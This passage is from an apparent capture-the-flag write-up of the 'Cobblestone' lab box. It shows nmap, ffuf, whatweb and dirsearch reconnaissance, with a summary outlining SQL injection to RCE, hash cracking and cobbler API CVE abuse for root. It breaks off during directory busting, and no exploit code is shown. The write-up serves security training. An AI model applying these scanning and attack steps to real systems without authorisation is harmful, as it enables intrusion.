

## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
- [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
    - [Subdomain Enumeration](#Subdomain-Enumeration)
    - [Enumeration of vote.cobblestone.htb](#Enumeration-of-votecobblestonehtb)
        - [Directory Busting](#Directory-Busting)
    - [Enumeration of deploy.cobblestone.htb](#Enumeration-of-deploycobblestonehtb)
        - [Directory Busting](#Directory-Busting)
- [SQL Injection](#SQL-Injection)
    - [Automation using sqlmap](#Automation-using-sqlmap)
- [Foothold](#Foothold)
- [Enumeration (www-data)](#Enumeration-www-data)
- [Privilege Escalation to cobble](#Privilege-Escalation-to-cobble)
    - [MariaDB Enumeration](#MariaDB-Enumeration)
    - [Cracking the Hash for cobble](#Cracking-the-Hash-for-cobble)
- [user.txt](#usertxt)
- [Enumeration (cobble)](#Enumeration-cobble)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
    - [Option 1](#Option-1)
        - [CVE‑2021‑40323: Arbitrary File Disclosure / Template Injection in cobbler API](#CVE202140323-Arbitrary-File-Disclosure--Template-Injection-in-cobbler-API)
    - [Option 2](#Option-2)
        - [CVE-2021-40324: Arbitrary File Write in cobbler API](#CVE-2021-40324-Arbitrary-File-Write-in-cobbler-API)
- [root.txt](#roottxt)
- [Closing Note](#Closing-Note)

## Summary

The box in the way it was released uses an `Time-Based Blind SQL Injection` for the `Foothold` on one of the `Subdomains`. It allows to `write` files on the `disk` and therefore achieve `Remote Code Execution (RCE)` and a shell as `www-data` on the box.

As the `low-privileged user` some `plaintext credentials` can be obtained from a `database connection` file which allows to `dump` a users `hash` out of the `MariaDB`. The `hash` is already `cracked` and the password can be looked up on `crackstation.net` or similar sites.

This `Privilege Escalation` leads to the `user.txt` and to a `rbash` environment. Since this seems to be a dead end, another `escalation` of `privileges` can be performed by abusing the `locally` running `cobbler API`, but this time the `privesc` leads straight to `root`. Which feels like an `unintended way`.

There are two ways on how to abuse the `cobbler API`. The first one is `CVE-2021‑40323` which describes an `Arbitrary File Read` / `Template Injection` in the `cobbler API`. This allows to read the `root.txt` directly. The second way is to use `CVE-2021-40324` which is about `Arbitrary File Write` through the `API` and this one allows actual `code execution`.

## Reconnaissance

### Port Scanning

As always we started of with the initial `port scan` using `Nmap`. It revealed only port `22/TCP` and port `80/TCP` were open.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- 10.129.159.4 --min-rate 10000 
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-09 21:03 CEST
Nmap scan report for 10.129.159.4
Host is up (0.054s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 7.02 seconds
```

A close look showed a `redirect` to `cobblestone.htb` which we added to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p 22,80 10.129.159.4 --min-rate 10000
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-09 21:03 CEST
Nmap scan report for 10.129.159.4
Host is up (0.015s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 50:ef:5f:db:82:03:36:51:27:6c:6b:a6:fc:3f:5a:9f (ECDSA)
|_  256 e2:1d:f3:e9:6a:ce:fb:e0:13:9b:07:91:28:38:ec:5d (ED25519)
80/tcp open  http    Apache httpd 2.4.62
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Did not follow redirect to http://cobblestone.htb/
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.81 seconds
```

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.159.4    cobblestone.htb
```

## Enumeration of Port 80/TCP

On port `80/TCP` we found some sort of Minecraft themed service page.

- [http://cobblestone.htb/](http://cobblestone.htb/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://cobblestone.htb/
http://cobblestone.htb/ [200 OK] Apache[2.4.62], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], IP[10.129.159.4], JQuery, Script[text/javascript], Title[Cobblestone - Official Website]
```



There was also a `login page` with the option to `register` a `new user`.

- [http://cobblestone.htb/login.php](http://cobblestone.htb/login.php)



After our registration we were able to login to access some Minecraft player themes. There was nothing special in particular here.





### Subdomain Enumeration

Since we got a `domain` to deal with, we started `enumerating` potential `subdomains` and got two hits. We added both to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.cobblestone.htb" -u http://cobblestone.htb --fw 18

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cobblestone.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.cobblestone.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 18
________________________________________________

deploy                  [Status: 200, Size: 1745, Words: 121, Lines: 52, Duration: 111ms]
vote                    [Status: 302, Size: 81, Words: 10, Lines: 4, Duration: 16ms]
:: Progress: [151265/151265] :: Job [1/1] :: 2020 req/sec :: Duration: [0:01:00] :: Errors: 0 ::
```

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.159.4    cobblestone.htb
10.129.159.4    vote.cobblestone.htb
10.129.159.4    deploy.cobblestone.htb
```

### Enumeration of vote.cobblestone.htb

Now it was time to see what the `subdomains` had to offer. We started with `vote.cobblestone.htb` which turned out was the only useful one.

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://vote.cobblestone.htb/
http://vote.cobblestone.htb/ [302 Found] Apache[2.4.62], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], HttpOnly[PHPSESSID], IP[10.129.159.4], RedirectLocation[login.php]
http://vote.cobblestone.htb/login.php [200 OK] Apache[2.4.62], Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], HttpOnly[PHPSESSID], IP[10.129.159.4], JQuery, PasswordField[password], Script[text/javascript], Title[Cobblestone - Login]
```

It followed the same structure. We could `register` a `new user` and `login`.





The `dashboard` showed us a `voting table` which contained a list of Minecraft servers.



When we tried to `vote` for the first server, we noticed that the `URL` changed.

- [http://vote.cobblestone.htb/details.php?id=1](http://vote.cobblestone.htb/details.php?id=1)



To rule it out we `fuzzed` the `parameter` to see if there were more than the `3` and the one we `register` in the meanwhile. Short answer was - no.

```shell
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Fuzzing/3-digits-000-999.txt -H "Cookie: PHPSESSID=d68g85s8nboctfm0qsnm9772vn" -u 'http://vote.cobblestone.htb/details.php?id=FUZZ' --fs 522

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://vote.cobblestone.htb/details.php?id=FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Fuzzing/3-digits-000-999.txt
 :: Header           : Cookie: PHPSESSID=d68g85s8nboctfm0qsnm9772vn
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 522
________________________________________________

002                     [Status: 200, Size: 1408, Words: 332, Lines: 42, Duration: 2918ms]
004                     [Status: 200, Size: 1397, Words: 332, Lines: 42, Duration: 2931ms]
003                     [Status: 200, Size: 1393, Words: 332, Lines: 42, Duration: 4002ms]
001                     [Status: 200, Size: 1399, Words: 332, Lines: 42, Duration: 5122ms]
:: Progress: [1000/1000] :: Job [1/1] :: 62 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```

As explained we registered our local machine as server and checked if we could tinker with it or if the box was vulnerable to Server-Side Request Forgery (SSRF) which it was not.





#### Directory Busting

While we were manually testing, we ran a `directory brute force` in the background to look for interesting files and directories.

```shell
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://vote.cobblestone.htb/

  _|. _ _  _  _  _ _|_    v0.4.3                                            
 (_||| _) (/_(_|| (_| )                                                                                                                                                                                                                     
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_vote.cobblestone.htb/__25-08-09_21-17-49.txt

Target: http://vote.cobblestone.htb/

[21:17:49] Starting:
[21:17:52] 403 -  285B  - /.ht_wsr.txt                                      
[21:17:52] 403 -  285B  - /.htaccess.bak1                                   
[21:17:52] 403 -  285B  - /.htaccess.orig                                   
[21:17:52] 403 -  285B  - /.htaccess.sample
[21:17:52] 403 -  285B  - /.htaccess_extra
[21:17:52] 403 -  285B  - /.htaccess.save                                   
[21:17:52] 403 -  285B  - /.htaccess_orig
[21:17:52] 403 -  285B  - /.htaccess_sc                                     
[21:17:52] 403 -  285B  - /.htaccessOLD
[21:17:52] 403 -  285B  - /.htaccessBAK
[21:17:52] 403 -  285B  - /.htaccessOLD2                                    
[21:17:52] 403 -  285B  - /.html                                            
[21:17:52] 403 -  285B  - /.htm                                             
[21:17:52] 403 -  285B  - /.httr-oauth                                      
[21:17:52] 403 -  285B  - /.htpasswd_test                                   
[21:17:52] 403 -  285B  - /.htpasswds                                       
[21:17:53] 403 -  285B  - /.php                                             
[21:17:53] 301 -  325B  - /js  ->  http://vote.cobblestone.htb/js/          
[21:18:09] 200 -   56B  - /composer.json                                    
[21:18:09] 200 -   14KB - /composer.lock                                    
[21:18:11] 301 -  326B  - /css  ->  http://vote.cobblestone.htb/css/        
[21:18:11] 301 -  325B  - /db  ->  http://vote.cobblestone.htb/db/          
[21:18:14] 200 -    1KB - /favicon.ico                                      
[21:18:17] 301 -  326B  - /img  ->  http://vote.cobblestone.htb/img/        
[21:18:19] 301 -  333B  - /javascript  ->  http://vote.cobblestone.htb/javascript/
[21:18:21] 200 -    1KB - /login.php                                        
[21:18:21] 302 -    0B  - /logout.php  ->  login.php                        
[21:18:31] 200 -    0B  - /register.php                                     
[21:18:33] 403 -  285B  - /server-status                                    
[21:18:33] 403 -  285B  - /server-status/                                   
[21:18:38] 301 -  332B  - /templates  ->  http://vote.cobblestone.htb/templates/
[21:18:42] 200 -    0B  - /vendor/autoload.php                              
[21:18:42] 200 -    0B  - /vendor/composer/autoload_classmap.php            
[21:18:42] 200 -    0B  - /vendor/composer/autoload_namespaces.php
[21:18:42] 200 -    0B  - /vendor/composer/autoload_files.php
[21:18:42] 200 -    0B  - /vendor/composer/autoload_static.php
[21:18:42] 200 -    0B  - /vendor/composer/autoload_psr4.php
[21:18:42] 200 -    1KB - /vendor/composer/LICENSE
[21:18:42] 200 -    0B  - /vendor/composer/autoload_real.php                
[21:18:42] 200 -    0B  - /vendor/composer/ClassLoader.php                  
[21:18:42] 200 -   14KB - /vendor/composer/installed.json                   
                                                                             
Task Completed
```

The only two interesting things we found was a `db` directory and the `composer.json` which unfortunately lead to nothing at this point.

- [http://vote.cobblestone.htb/composer.json](http://vote.cobblestone.htb/composer.json)

```shell
┌──(kali㉿kali)-[~]
└─$ curl http://vote.cobblestone.htb/composer.json
{
    "require": {
        "twig/twig": "^3.14"
    }
}
```

### Enumeration of deploy.cobblestone.htb

After the quick look on the first subdomain we now moved on to `deploy.cobblestone.htb`.

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://deploy.cobblestone.htb/
http://deploy.cobblestone.htb/ [200 OK] Apache[2.4.62], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], IP[10.129.159.4], JQuery, Script[text/javascript], Title[Cobblestone - Deploy Minecraft Server]
```

But besides a development notice, we didn't get anything from it.



#### Directory Busting

We performed the same technique here too but found absolutely nothing of interest.

```shell
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://deploy.cobblestone.htb/

  _|. _ _  _  _  _ _|_    v0.4.3                                                 
 (_||| _) (/_(_|| (_| )                                                                                                                                                                                                                     
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_deploy.cobblestone.htb/__25-08-09_21-20-44.txt

Target: http://deploy.cobblestone.htb/

[21:20:44] Starting:
[21:20:44] 301 -  329B  - /js  ->  http://deploy.cobblestone.htb/js/        
[21:20:46] 403 -  287B  - /.ht_wsr.txt                                      
[21:20:46] 403 -  287B  - /.htaccess.bak1                                   
[21:20:46] 403 -  287B  - /.htaccess.orig                                   
[21:20:46] 403 -  287B  - /.htaccess_extra                                  
[21:20:46] 403 -  287B  - /.htaccess.sample
[21:20:46] 403 -  287B  - /.htaccess.save
[21:20:46] 403 -  287B  - /.htaccess_orig
[21:20:46] 403 -  287B  - /.htaccessBAK
[21:20:46] 403 -  287B  - /.htaccess_sc
[21:20:46] 403 -  287B  - /.htaccessOLD
[21:20:46] 403 -  287B  - /.htaccessOLD2
[21:20:46] 403 -  287B  - /.htm                                             
[21:20:46] 403 -  287B  - /.html                                            
[21:20:46] 403 -  287B  - /.htpasswds                                       
